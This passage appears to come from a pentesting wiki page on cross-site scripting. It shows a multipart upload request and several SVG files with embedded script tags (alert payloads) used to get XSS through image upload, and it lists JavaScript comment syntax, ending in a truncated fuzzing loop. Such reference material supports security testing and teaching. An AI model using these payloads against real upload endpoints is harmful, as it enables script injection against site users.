 {% page-ref page="server-side-xss-dynamic-pdf.md" %}

If you cannot inject HTML tags it could be worth it to try to **inject PDF data**:

{% page-ref page="pdf-injection.md" %}

### XSS uploading files \(svg\)

Upload as an image a file like the following one \(from [http://ghostlulz.com/xss-svg/](http://ghostlulz.com/xss-svg/)\):

```markup
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert(1);
   </script>
</svg>
-----------------------------232181429808--
```

```markup
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <script type="text/javascript">alert("XSS")</script>
</svg>
```

```markup
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```

## Other JavaScript tricks

### JavaScript Comments

```javascript
//This is a 1 line comment
/* This is a multiline comment*/
#!This is a 1 line comment, but "#!" must to be at the beggining of the line
-->This is a 1 line comment, but "-->" must to be at the beggining of the line


  for (let j = 0; j < 128; j++) {
    for (let k = 0; k < 128; k++) {
      for (let l = 0; l < 128; l++) {
        if (j == 34 || k ==34 || l ==34)
          continue;
        if (j == 0x0a || k ==0x0a || l ==0x0a)
          continue;
        if (j == 0x0d || k ==0x0d || l ==0x0d)
          continue;
        if (j == 0x3c || k ==0x3c || l ==0x3c)
```
